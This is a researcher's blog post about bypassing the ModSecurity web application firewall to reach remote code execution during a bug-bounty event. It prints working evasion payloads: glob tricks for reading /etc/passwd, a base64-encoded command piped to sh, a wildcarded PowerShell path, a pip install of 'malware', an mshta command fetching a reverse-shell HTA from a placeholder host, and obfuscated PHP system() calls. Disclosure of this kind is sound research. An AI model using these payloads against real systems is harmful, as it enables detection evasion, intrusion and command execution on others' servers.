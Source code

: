 ```yaml
---
layout: post
title:  "Bypassing ModSecurity for RCEs"
date:   2022-08-29 18:32:00 +0530
author: Somdev Sangwan
tags:   [event, bypass, security]
image: /imgs/thumbs/modsecurity-event.png
permalink: /blog/modsecurity-rce-bypass
description: "A tale of multiple RCE bypasses for ModSecurity WAF."  
---
```


> tl;dr: I won $17k by bypassing [ModSecurity](https://github.com/SpiderLabs/ModSecurity) for multiple RCEs in in a hacking event hosted by [intigriti](https://www.intigriti.com/).

## WAFs 101

Firewalls stop attacks. They can recognize them with their database of various rules that describe what an attack looks like. These rules are created by hand or automated analysis of thousands of actual attacks.
  
A web application firewall is a firewall, for websites.

### Blacklists are hard
`ping` is a tool commonly used to troubleshoot networks. As a WAF designer, you might want to block attempts to run it. But what if user A sends a text message to user B through your WAF,
> your router looks fine, try to ping google.com

That's it. The WAF blocked the message, the user filed a complaint to the website owner. The owner debugged the issue and found out that the WAF was at fault.  
Now prepare for an angry twitter thread to be shoved down your throat, your wife Karen leaving you and taking the kids with her. You are done.

Jokes apart and credit where it's due, writing anti-attack rules for unknown contexts is tough. You need to prioritize false negatives over false positives over multiple levels of security while still protecting against the most common attacks.

With that being said, let me tell you a tale of why I am so cool and such a genius for trying random things until some of them worked.

## Filenames in Linux
> Note: When I say "linux", it means *nix (linux and unix). This applies to the entire article.

It is common knowledge that in linux, wildcards such as `*` and `?` are allowed in filenames. But did you know that character classes are also allowed? If your file is named `test.txt`, you can access it by typing `te[sn]t.txt`. The `[sn]` here is a *character class* which says that the character in this place can be an `s` or an `n` i.e. it will match both `test.txt` and `tent.txt`.

If you add an exclamation symbol (`!`) at the beginning of the character class (i.e. `[!sn]`) it will match everything other than the characters in it (i.e. `s` and `n`).

These character classes notations were not getting detected by ModSecurity, giving us two neat bypasses:

```
cat /etc/pass[w]d
cat /etc/pass[!x]d
```

## Everything is a file in Unix
> "Everything is a file" describes one of the defining features of Unix, and its derivatives—that a wide range of input/output resources such as documents, directories, hard-drives, modems, keyboards, printers and even some inter-process and network communications are simple streams of bytes exposed through the filesystem name space.
> - [WikiPedia](en.wikipedia.org/wiki/Everything_is_a_file)

Every command in linux is ultimately an executable binary file stored in `/usr/bin`. Thus instead of executing `ping`, you can write `/usr/bin/ping` and it will work.

Building on my previous exploit that could only interact with files, I turned that file-access technique into a juicy RCE with  

```
/usr/bin/who[a]mi -a
```

## Utilising the linux utilities
There are some amazing [core utilities](https://en.wikipedia.org/wiki/List_of_GNU_Core_Utilities_commands) that come pre-installed in linux.

I cross-checked them with ModSecurity's rules and found some commands that were missing from the blacklist. With a bit of reading here and there, the `base64` utility caught my eye. As the name suggests, it does [base64](https://en.wikipedia.org/wiki/Base64) encoding/decoding.

The idea was to encode the command as base64, decode it and pass the result to something that can "eval" it as a command.

There were some problems with this plan,
1. base64 utility needed [stdin](https://linuxhint.com/bash_stdin_stderr_stdout/) and the only plausible way to do that was with `echo` (e.g. `echo dW5hbWUgLWE= | base64 -d`). But `echo` was blacklisted, as it should be.
2. `sh` (shell) command can execute stdin as a command. Unfortunately, it was blacklisted too and there is no alternative to `sh`.

I solved the first problem by using `printf` instead of `echo`. It's an echo-like utility that supports string formatting.

The second one seemed like a dead end, the most common outcome in research. I did what researchers do, I decided to pursue other ideas as a break.
It helped, after some messing around I found that if a command isn't followed by any character, it doesn't get detected.

Combining these two bypasses, the final bypass becomes this:
```
printf dW5hbWUgLWE= | base64 -d | sh
```

Here, we base64 encoded a command, used the `base64` to decode it and then used `sh` to execute the decoded command.  
  
The neat thing about this bypass is that you smuggle literally anything and since it's base64 encoded, the WAF won't detect a thing.

## Windows is no different
Hacking is about trying things. Sometimes stupidly obvious, sometimes things you learned from a 4-page forum thread from 2006 and sometimes whatever keys you can press with your blurry sleepy eyes at 4 AM.

I tried the `?` filepath wildcard on Windows and it worked. ModSecurity didn't detect it since the wildcard detection rules were for `/paths/like/this` not `C:\paths\like\this`. Easy.

```
C:\Windows\System32\WindowsPowerShell\v1.0\power?hell.exe -File test.ps1
```

### Programming languages have versions now?
ModSecurity blocked `python xyz`, `python2 xyz` and `python3 xyz`. "Unfortunately", you can also invoke specific versions of the interpreter as `python3.10 xyz` for example. This variation wasn't blacklisted and hence I found a way to install arbitrary malware using python.

```
python3.10 -m pip install malware
```

## Entering through the Windows  
Windows is a gold mine for not-so-well-known features. Some found through a blog of a 16yo reverse engineer, some through Windows 95 guides and some by simply googling "windows malware delivery github".

I found a utility named [mshta](https://redcanary.com/threat-detection-report/techniques/mshta/) which is a windows component that deals with HTA ([HTML Application](https://en.wikipedia.org/wiki/HTML_Application)) files. These files can contain executable VBScript code and there's even a metasploit module to generate malicious HTA files.  
  
ModSecurity didn't detect it which gave me a payload that can download+execute arbitrary VBScript code.

```
mshta http://example.com/reverseShell.hta
```

## PHP Injection

You should check out [OWASP Core Rule Set](https://github.com/coreruleset/coreruleset), the collection of WAF rules used by ModSecurity. The comprehensibly documented rules through comments make it an excellent resource.

While trying to get my PHP function calls through the WAF, I went through the documentation of the [rule](https://github.com/coreruleset/coreruleset/blob/977ccdfb914e6d62b00ae26e2006b75b22e3df6c/rules/REQUEST-933-APPLICATION-ATTACK-PHP.conf#L418) that detects them. It was there where I learned that an attacker can obfuscate a function call as:

```
$x='sy'.'tem';
$x(ls);
```

Something clicked immediately, what if I could do this segmentation without a variable? One thing led to another and after a bit of testing, I came up with:

```
return"system"(ls).s;
```

Don't ask me to explain how this one works, I don't know much about PHP. I just tried things that made sense after looking at known bypasses and this one worked in a PHP webpage I created for testing.

### Credits
ModSecurity is an open-source WAF and if you ask me, it's as good as WAFs get. It is almost impossible to bypass it for XSS, the rules are that good.

Shoutouts to them for maintaining such an important and free project responsibly and thanks to intigriti for hosting this hacking event and inviting me.

Until next time, fellas.
